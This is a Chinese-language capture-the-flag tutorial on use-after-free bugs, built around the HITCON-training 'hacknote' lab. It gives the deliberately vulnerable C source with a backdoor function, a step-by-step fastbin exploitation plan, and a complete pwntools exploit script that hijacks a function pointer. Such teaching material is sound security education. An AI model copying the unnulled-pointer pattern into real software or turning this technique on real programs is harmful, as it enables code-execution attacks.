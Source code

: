 # 08.use_after_free

## 原理

 简单的说，Use After Free 就是其字面所表达的意思，当一个内存块被释放之后再次被使用。但是其实这里有以下几种情况：

- 内存块被释放后，其对应的指针被设置为 NULL ， 然后再次使用，自然程序会崩溃。
- 内存块被释放后，其对应的指针没有被设置为 NULL ，然后在它下一次被使用之前，没有代码对这块内存块进行修改，那么**程序很有可能可以正常运转**。
- 内存块被释放后，其对应的指针没有被设置为 NULL，但是在它下一次使用之前，有代码对这块内存进行了修改，那么当程序再次使用这块内存时，**就很有可能会出现奇怪的问题**。

而我们一般所指的 **Use After Free** 漏洞主要是后两种。此外，我们一般称被释放后没有被设置为 NULL 的内存指针为 dangling pointer。

<a name="a0f671d4"></a>
## HITCON-training lab 10 hacknote

程序源码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

struct note {
  void (*printnote)();
  char *content;
};

struct note *notelist[5];
int count = 0;

void print_note_content(struct note *this) { puts(this->content); }
void add_note() {
  int i;
  char buf[8];
  int size;
  if (count > 5) {
    puts("Full");
    return;
  }
  for (i = 0; i < 5; i++) {
    if (!notelist[i]) {
      notelist[i] = (struct note *)malloc(sizeof(struct note));
      if (!notelist[i]) {
        puts("Alloca Error");
        exit(-1);
      }
      notelist[i]->printnote = print_note_content;
      printf("Note size :");
      read(0, buf, 8);
      size = atoi(buf);
      notelist[i]->content = (char *)malloc(size);
      if (!notelist[i]->content) {
        puts("Alloca Error");
        exit(-1);
      }
      printf("Content :");
      read(0, notelist[i]->content, size);
      puts("Success !");
      count++;
      break;
    }
  }
}

void del_note() {
  char buf[4];
  int idx;
  printf("Index :");
  read(0, buf, 4);
  idx = atoi(buf);
  if (idx < 0 || idx >= count) {
    puts("Out of bound!");
    _exit(0);
  }
  if (notelist[idx]) {
    free(notelist[idx]->content);
    free(notelist[idx]);
    puts("Success");
  }
}

void print_note() {
  char buf[4];
  int idx;
  printf("Index :");
  read(0, buf, 4);
  idx = atoi(buf);
  if (idx < 0 || idx >= count) {
    puts("Out of bound!");
    _exit(0);
  }
  if (notelist[idx]) {
    notelist[idx]->printnote(notelist[idx]);
  }
}

void magic() { system("cat flag"); }

void menu() {
  puts("----------------------");
  puts("       HackNote       ");
  puts("----------------------");
  puts(" 1. Add note          ");
  puts(" 2. Delete note       ");
  puts(" 3. Print note        ");
  puts(" 4. Exit              ");
  puts("----------------------");
  printf("Your choice :");
};

int main() {
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  char buf[4];
  while (1) {
    menu();
    read(0, buf, 4);
    switch (atoi(buf)) {
    case 1:
      add_note();
      break;
    case 2:
      del_note();
      break;
    case 3:
      print_note();
      break;
    case 4:
      exit(0);
      break;
    default:
      puts("Invalid choice");
      break;
    }
  }
  return 0;
}
```

<a name="36bfad43"></a>
#### add note 功能：

1. 申请一个八字节的内存用来存放put函数指针和content指针
2. 根据输入的size值来申请内存，用来存放real content

申请后的内存分布如图：<br />![](https://img-blog.csdnimg.cn/20210221163112702.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=e68k7&originHeight=151&originWidth=516&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

程序Delete note功能，只对内存进行了free，而没有将对应的指针置为NULL，导致use_after_free;<br />![](https://img-blog.csdnimg.cn/20210221163137289.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=q90Xg&originHeight=126&originWidth=411&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

存在后门函数：<br />![](https://img-blog.csdnimg.cn/20210221163156697.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=ElZ2m&originHeight=37&originWidth=429&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

程序Print note功能是通过指针函数调用函数的，**一个很直接的想法是修改 note 的 put 字段为 magic 函数的地址，从而实现在执行 print note 的时候执行 magic 函数。**

<a name="1a7f5c22"></a>
### 利用思路：

1.  申请 note0，real content size 为 32，输入的content为“aaaa”（大小与 note 大小所在的 bin 不一样即可）<br />![](https://img-blog.csdnimg.cn/2021022116325585.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=IPj2E&originHeight=306&originWidth=778&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=) 
2.  申请 note1，real content size 为 32，输入的content为“bbbb”（大小与 note 大小所在的 bin 不一样即可）<br />![](https://img-blog.csdnimg.cn/20210221163326624.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=znZWj&originHeight=283&originWidth=678&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=) 
3.  释放 note0，内存会进入fastbin中，且content chunk和note chunk会进入不同的位置 
4.  释放 note1 
5.  此时，大小为 0x10 的 fast bin chunk 中链表为 note1->note0<br />![](https://img-blog.csdnimg.cn/20210221163405277.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=Uokbf&originHeight=720&originWidth=871&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=) 
6.  申请 note2，并且设置 real content 的大小为 8，那么根据堆的分配规则：<br />note2 其实会分配 note1 对应的内存块。<br />real content 对应的 chunk 其实是 note0。<br />![](https://img-blog.csdnimg.cn/20210221163502412.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=OJXRc&originHeight=651&originWidth=867&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=) 
7.  如果我们这时候向 note2 real content 的 chunk 部分写入 magic 的地址，那么由于我们没有 note0 为 NULL。当我们再次尝试输出 note0 的时候，程序就会调用 magic 函数。 

<a name="964d959d"></a>
### 利用脚本：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./hacknote')


def addnote(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))


def printnote(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


#gdb.attach(r)
magic = 0x08048986

addnote(32, "aaaa") # add note 0
addnote(32, "bbbb") # add note 1

delnote(0) # delete note 0
delnote(1) # delete note 1

addnote(8, p32(magic)) # add note 2

printnote(0) # print note 0

r.interactive()
```
